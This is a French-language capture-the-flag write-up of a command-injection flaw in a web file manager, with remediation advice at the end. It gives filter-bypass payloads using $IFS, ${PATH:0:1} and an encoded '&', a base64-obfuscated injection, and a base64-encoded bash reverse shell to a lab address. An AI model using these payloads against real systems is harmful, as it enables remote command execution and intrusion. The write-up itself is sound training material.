

Cette documentation détaille l'exploitation d'une vulnérabilité de **Command Injection** permettant la lecture de fichiers arbitraires, souvent étudiée dans le cadre de la phase de **Web Application Enumeration** et de la création de **Payloads and Bypasses**.

## Objectif
Lire le contenu de `/flag.txt` sur une application web vulnérable via une **Command Injection** dans une fonctionnalité de gestion de fichiers.

## Contexte de l'application
- Application web avec une interface de gestion de fichiers.
- L'utilisateur peut copier ou déplacer des fichiers via un formulaire.
- Les actions déclenchent des commandes système côté serveur (**mv**, **cp**).
- Paramètres transmis via la méthode **GET** : `to`, `from`, `move`, `finish`.

## Découverte de la vulnérabilité
1. Lors d'un "Move" sans spécifier de dossier de destination, l'application affiche une erreur contenant la sortie de la commande **mv**.
2. L'erreur apparaît sur la ligne 732 du code HTML, indiquant que l'application ne traite pas correctement la sortie d'erreur, permettant la fuite de la sortie standard.
3. Le filtrage des entrées sur les paramètres `to` et `from` est incomplet : les caractères `;`, `&&`, `|` sont bloqués, mais le caractère `&` est autorisé.

> [!danger] Condition critique
> La vulnérabilité repose sur la fuite de stderr dans la réponse HTTP.

## Construction du payload
Le contournement des restrictions s'effectue comme suit :
- Espaces : utilisation de `$IFS` ou `%09`.
- Slash `/` : utilisation de `${PATH:0:1}`.
- Séparateur : utilisation de `&` encodé en `%26`.

> [!tip] 
> L'utilisation de $IFS est une technique standard pour contourner les restrictions d'espaces.

> [!warning] Attention
> L'utilisation de ${PATH:0:1} dépend de la configuration de l'environnement shell.

## Payload final
Payload non encodé :
```bash
tmp$IFS&cat$IFS${PATH:0:1}flag.txt
```

Payload encodé dans l'URL :
```text
to=tmp$IFS%26c"a"t$IFS${PATH:0:1}flag.txt
```

Exemple de requête complète :
```text
/index.php?to=tmp$IFS%26c"a"t$IFS${PATH:0:1}flag.txt&from=51459716.txt&finish=1&move=1
```

## Injection alternative avec base64
Pour masquer la commande, il est possible d'utiliser **base64** :
```bash
echo 'cat /flag.txt' | base64
# Sortie : Y2F0IC9mbGFnLnR4dA==
```

Payload d'injection :
```bash
to=tmp$IFS%26b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
```

## Preuve de concept (PoC) de l'impact (ex: reverse shell)
Pour démontrer un impact critique au-delà de la lecture de fichiers, un reverse shell peut être établi.

```bash
# Payload pour reverse shell (encodé en base64 pour éviter les caractères interdits)
# Commande : bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMSc=" | base64 -d | bash
```

Payload injecté :
```text
to=tmp$IFS%26bash<<<$(base64%09-d<<<YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMSc=)
```

## Vérification des permissions de l'utilisateur web
Il est nécessaire d'identifier le contexte d'exécution pour évaluer les risques de **Linux Privilege Escalation**.

```bash
# Vérification de l'utilisateur courant
id
# Vérification des capacités sudo
sudo -l
# Vérification des fichiers accessibles
ls -la /var/www/html
```

## Analyse des logs serveur
L'analyse des logs permet de confirmer l'exécution des commandes injectées et de détecter une éventuelle détection par un WAF ou un système de monitoring.

```bash
# Consultation des logs d'accès et d'erreur Apache/Nginx
tail -f /var/log/apache2/access.log
tail -f /var/log/apache2/error.log
```

## Résultat
La commande est exécutée et la sortie de **cat** est affichée dans la page d'erreur :
```text
HTB{c0mm4nd3r_1nj3c70r}
```

## Analyse de cause racine
- La commande **mv** échoue volontairement, ce qui permet de récupérer le flux stderr.
- La commande injectée après `&` est exécutée par le shell malgré l'échec de la première.
- Le filtrage côté serveur est basé sur une liste noire incomplète.

> [!danger] Danger
> Le filtrage par liste noire est inefficace ; privilégier une validation stricte des entrées (whitelisting).

## Remédiation / Recommandations de sécurité
1. **Validation stricte** : Utiliser une liste blanche (whitelisting) pour les entrées utilisateur.
2. **Échappement des entrées** : Utiliser des fonctions natives comme `escapeshellarg()` en PHP pour traiter les arguments.
3. **Principe du moindre privilège** : Exécuter le service web avec un utilisateur dédié sans droits d'écriture sur les répertoires système.
4. **Désactivation des fonctions dangereuses** : Désactiver les fonctions d'exécution système (`exec`, `shell_exec`, `system`) dans le fichier `php.ini` si elles ne sont pas nécessaires.
```